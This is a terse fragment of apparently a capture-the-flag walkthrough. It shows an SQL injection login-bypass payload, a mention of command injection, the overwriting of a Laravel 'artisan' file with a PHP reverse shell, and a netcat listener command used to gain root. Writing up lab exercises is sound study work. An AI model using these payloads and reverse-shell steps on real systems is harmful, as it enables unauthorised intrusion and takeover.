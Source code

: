 in admin auth page we past this payload
![[Pasted image 20250211181046.png]]
username=' or '1'='1'#&password=' or '1'='1'#

then we use command injection and get user flag
![[Pasted image 20250211181114.png]]

![[Pasted image 20250211210830.png]]
![[Pasted image 20250211210848.png]]
replace artisan on our reverse shell
mv /tmp/php-reverse-shell.php /var/www/laravel/artisan
get root access
nc -lvnp 1234
